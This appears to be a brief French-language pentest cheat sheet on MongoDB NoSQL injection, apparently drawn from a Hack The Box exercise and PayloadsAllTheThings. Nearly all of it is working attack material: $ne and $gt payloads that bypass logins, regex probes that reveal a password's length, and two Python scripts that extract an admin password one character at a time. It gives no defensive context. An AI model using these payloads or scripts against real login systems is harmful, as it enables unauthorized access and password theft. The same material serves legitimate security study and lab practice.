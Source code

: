 # MongoDB
## Bypass de l'authent


in URL
username[$ne]=toto&password[$ne]=toto #modification avec burp par éxemple

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}




## trouver la longueur du mdp dans une requete post:


username=admin&password[$regex]=.{1}&login=login #302
username=admin&password[$regex]=.{2}&login=login #302
username=admin&password[$regex]=.{3}&login=login #302
username=admin&password[$regex]=.{4}&login=login #200 #longueur = 3 char



## utiliser les regex pour dumper un passwords:

```
#!/usr/bin/python3

import requests
import string

flag = ""
url = "http://staging-order.mango.htb/index.php"
#ajout du Content-Type: application/x-www-form-urlencoded
headers = {'Content-type': 'application/x-www-form-urlencoded'}
# Each time a 302 redirect is seen, we should restart the loop

restart = True
while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.printable:
        if i not in ['*','+','.','?','|']:
            payload = flag + i
            #utilisateur:
            #post_data = {'username[$regex]': payload + ".*", 'password[$gt]': '', 'login': 'login'}
            #mot de passe
            post_data = {'username': 'admin', 'password[$regex]': "^"+payload, 'login':'login'}
            #post_data = "username=admin&password[$regex]=" + payload +".*" + "&login=login"
            r = requests.post(url, data=post_data, headers=headers, allow_redirects=False)

            # A correct password means we get a 302 redirect
            if r.status_code == 302:
                print(payload)
                restart = True
                flag = payload


GET (payloadAllTheThings
===

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?username=%s&password[$regex]=^%s' % (username, password + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (password+c))
        password += c

```



